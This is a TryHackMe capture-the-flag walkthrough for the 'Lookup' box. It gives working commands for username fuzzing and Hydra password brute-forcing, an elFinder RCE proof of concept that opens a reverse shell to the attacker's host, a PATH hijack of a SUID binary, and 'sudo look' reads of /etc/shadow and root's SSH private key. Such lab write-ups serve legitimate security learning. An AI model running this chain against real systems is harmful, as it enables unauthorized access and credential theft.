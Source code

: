 # Lookup

# Lookup - TryHackMe Walkthrough

## 🧩 Overview

- **Platform:** TryHackMe
- **Box Name:** Lookup
- **Difficulty:** Easy
- **Date Completed:** 16/07/2025
- **Summary:** Web login brute-force > PHP RCE via vulnerable elFinder > Privilege escalation to user through SUID PATH hijack > Root via sudo abuse of `look` to access SSH private key.

---

## 1. 🔍 Enumeration

### Port Scanning

```bash
nmap -p- --open -sS -n -T4 -vvv 10.10.102.13 -oN full_tcp_scan.txt
```

- Port 22: SSH
- Port 80: HTTP

Follow-up service scan:

```bash
nmap -p 22,80 -sC -sV -n -T4 -vvv 10.10.102.13 -oN targeted_scan.txt
```

- Port 22: OpenSSH 8.2p1 (Ubuntu 4ubuntu0.9)
- Port 80: Apache/2.4.41 (Ubuntu)

---

### Web Enumeration

The IP resolves as `lookup.thm`, which I added to `/etc/hosts`. Visiting the site shows a login form at `/index.php`.

I used `gobuster` to look for additional content:

```bash
gobuster dir -u <target ip> -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50 -o gobuster_results.txt -k -r
```

Only `/index.php` appeared relevant.

---

### Login Portal Analysis

Using Burp Suite, I tested login responses. Submitting a known username (`admin`) and a dummy password gives:

```
Wrong password. Please try again.<br>Redirecting in 3 seconds.
```

Trying a non-existent username shows:

```
Wrong username or password. Please try again.<br>Redirecting in 3 seconds.
```

This difference in responses can be used to fuzz for valid usernames.

---

### Username Fuzzing (ffuf)

```bash
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt \
     -X POST \
     -u http://lookup.thm/login.php \
     -d 'username=FUZZ&password=REDACTED' \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -fr "Wrong username or password"
```

🧠 **Learning:** Spent a long time trying to fuzz usernames with Hydra to no avail. Switched to `ffuf` and got results instantly.

- Valid username found: `jose`

---

### Password Bruteforce (Hydra)

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password" -f -V

```

- Credentials found: `jose:REDACTED`

---

## 2. 💥 Initial Foothold

After logging in, the portal revealed a file manager interface powered by **elFinder v2.1.47**, which is vulnerable to command injection (CVE-2019-9194).

Exploitation was done using this PoC:

https://github.com/hadrian3689/elFinder_2.1.47_php_connector_rce

```bash
python3 elfinder.py -t http://files.lookup.thm/elFinder/ -lh 10.9.0.89 -lp 4305
```

This gave a reverse shell as `www-data`.

---

## 3. 🚀 Privilege Escalation

### User Privilege Escalation – think

In `/home/think/`, `user.txt` was present but unreadable by `www-data`. Searching for SUID binaries revealed `/usr/sbin/pwm`.

```bash
strings pwm
```

The binary:

- Executes the `id` command.
- Parses the username from the output.
- Constructs a path: `/home/<username>/.passwords`
- Attempts to read that file.

Since `id` isn’t invoked with an absolute path, I performed PATH hijacking:

```bash
echo -e '#!/bin/bash\necho "uid=1000(think) gid=1000(think) groups=1000(think)"' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
```

Running `pwm` now reads the file `/home/think/.passwords`, which contained a long list of possible passwords.

Bruteforcing with Hydra:

```bash
hydra -l think -P lookup.txt ssh://10.10.102.13
```

- Valid credentials found: `think:REDACTED`
- User flag located at `/home/think/user.txt`

---

### Root Privileges – Sudo Abuse with `look`

Checking `sudo -l` revealed:

```bash
User think may run the following commands:
    (ALL) /usr/bin/look
```

According to GTFOBins, `look` can read files when passed an empty search string:

```bash
sudo look "" /etc/shadow
```

This revealed password hashes. While running a cracker, I also checked `/root/.ssh/id_rsa`:

```bash
sudo look "" /root/.ssh/id_rsa
```

Found a full private SSH key. Saved it, set correct permissions, and logged in as root:

```bash
ssh -i lookup_id root@10.10.87.108
```

Root flag retrieved from `/root/root.txt`.

---

## 📝 Key Learnings

- `ffuf` is significantly more effective for username fuzzing than Hydra in certain cases.
- PATH hijacking with custom scripts is a common vector in CTF-style privilege escalation.
- It’s worth checking SUID binaries with `strings` to infer logic and potential abuse paths.
- CVE research and GitHub PoCs can provide quick paths to initial access.
- GTFOBins is a powerful resource when enumerating sudo permissions.

---


## 🛠️ Tools Used

- `nmap`
- `gobuster`
- `ffuf`
- `hydra`
- `netcat`
- `Burp Suite`
- `python3`
- `GTFOBins`
- `strings`, `chmod`, `export`, `sudo`

---

## ✅ Box Completed: Lookup

🎯 **Goal:** Demonstrated enumeration, exploitation, and both user and root privilege escalation paths using common tools and manual analysis.

📘 **Portfolio Note:** This was a great learning opportunity for chaining multiple low-privilege issues into a full box compromise and reinforces the importance of detail during enumeration.
